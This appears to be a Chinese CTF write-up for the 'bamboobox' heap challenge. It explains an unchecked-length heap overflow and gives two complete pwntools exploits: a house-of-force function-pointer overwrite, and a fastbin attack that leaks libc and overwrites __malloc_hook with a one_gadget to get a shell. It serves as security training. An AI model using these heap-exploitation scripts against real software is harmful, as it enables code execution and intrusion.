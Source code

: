 ```yaml
---
abbrlink: '0'
---
```

## hitcontraining_bamboobox

> 题目解法比较多，可以 fastbin 改 malloc_hook 搭配 realloc 运行 onegadget ；house of force 向上抬 topchunk 改 goodbye 函数地址；house of force 向下压 topchunk 改 malloc_hook 。

### 基本情况

用 chunk_ptr 和 chunk_size  两个列表维护，基于下标操作堆块。增删查改功能都有。

### 漏洞

修改函数要求输入修改长度，对该长度没有限制，造成堆溢出：

```c
printf("Please enter the length of item name:", &buf);
read(0, &v4, 8uLL);
length = atoi(&v4);
printf("Please enter the new name of the item:", &v4);
//直接写入，没有对size进行检查
*(_BYTE *)(chunk_ptr_list[2 * v2] + (signed int)read(0, (void *)chunk_ptr_list[2 * v2], length)) = 0;
```

### 思路

> fastbin 攻击 malloc_hook 方法和正常套路流程差不多，最后贴 exp 。

house of force 使用条件都满足，先明确将 topchunk 向上调多少。申请好等等用来溢出修改 topchunk size 的 chunk 之后，gdb 调试。

![image-20201103111102583](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20201103111102.png)

这里就直接将堆申请覆盖整个第一个堆块，距离计算：

```python
#(0x603000-0x603090)-0x10=-0xa0
add(-0xa0,'b')
add(0x10,'skye'*2+p64(elf.sym['magic']))
```

![image-20201103112332803](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20201103112332.png)

后面就申请一个堆，写入内容，也就是任意地址写。

### EXP

house of force

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')

p = process("./bamboobox")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./bamboobox")
# p = remote("node3.buuoj.cn",29945)
# libc = ELF("./libc-2.23.so")

def add(size,content):
	p.recvuntil(':')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def show():
	p.recvuntil(':')
	p.sendline('1')

def edit(id,size,content):
	p.recvuntil(':')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(id))
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def remove(id):
	p.recvuntil(':')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(id))

add(0x68,'a')
payload = 'a'*0x68+p64(0xffffffffffffffff)
edit(0,len(payload),payload)
add(-0xa0,'b')
add(0x10,'skye'*2+p64(elf.sym['magic']))


p.recvuntil(':')
p.sendline('5')

# gdb.attach(p)
p.interactive()
```

fastbin attack

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')

# p = process("./bamboobox")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./bamboobox")
p = remote("node3.buuoj.cn",29945)
libc = ELF("./libc-2.23.so")

def add(size,content):
	p.recvuntil(':')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def show():
	p.recvuntil(':')
	p.sendline('1')

def edit(id,size,content):
	p.recvuntil(':')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(id))
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def remove(id):
	p.recvuntil(':')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(id))

add(0x100,'top')
add(0x68,'overloping')#1
add(0x400-0x10,'end')
add(0x68,'/bin/sh\x00protect')#3

remove(0)

payload = 'a'*0x60+p64(0X180)#+'\x00'
edit(1,len(payload),payload)

remove(2)

add(0x100,'top')

show()
p.recvuntil("1 : ")
leak_addr = u64(p.recv(6).ljust(8,'\x00'))
libc_base = leak_addr-0x3c4b78
log.info("libc_base:"+hex(libc_base))
malloc_hook = libc_base+libc.sym['__malloc_hook']
log.info("malloc_hook:"+hex(malloc_hook))
realloc = libc_base+libc.sym['realloc']


add(0x68,'skye')#2
remove(2)
edit(1,len(p64(malloc_hook-27-8)),p64(malloc_hook-27-8))
add(0x68,'skye')

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
onegadget = libc_base + 0x4526a#0x4527a
add(0x68,'a'*11+p64(onegadget)+p64(realloc))
# gdb.attach(p)
p.recvuntil(':')
p.sendline('2')
p.recvuntil('name:')
p.sendline(str(0x68))


p.interactive()
```

